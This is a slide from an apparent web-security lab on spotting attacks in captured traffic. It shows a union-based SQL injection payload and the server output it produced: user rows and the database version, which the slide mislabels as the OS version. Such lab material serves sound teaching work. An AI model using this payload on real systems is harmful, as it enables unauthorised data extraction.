

# Sniffing Web Attacks
Step 2: Were the attacks successful? Support your conclusion with evidence.

The third payload: %' or '0'='0' union select null, version()
Solution: Yes, this payload was successful.
This response also contains HTML. If you scroll through it, you'll find that it reports the server's OS version: 5.5.54-0ubuntu0.14.04.1.
<!-- Below is an excerpt of the server's response -->
<pre>ID: %' or 0=0 union select null, version()<br />First name: admin<br />Surname: admin</pre>
<pre>ID: %' or 0=0 union select null, version()<br />First name: Gordon<br />Surname: Brown</pre>
<pre>ID: %' or 0=0 union select null, version()<br />First name: Hack<br />Surname: Me</pre>
<pre>ID: %' or 0=0 union select null, version()<br />First name: Pablo<br />Surname: Picasso</pre>
<pre>ID: %' or 0=0 union select null, version()<br />First name: Bob<br />Surname: Smith</pre>
<pre>ID: %' or 0=0 union select null, version()<br />First name: <br />Surname: 5.5.54-0ubuntu0.14.04.1</pre>

31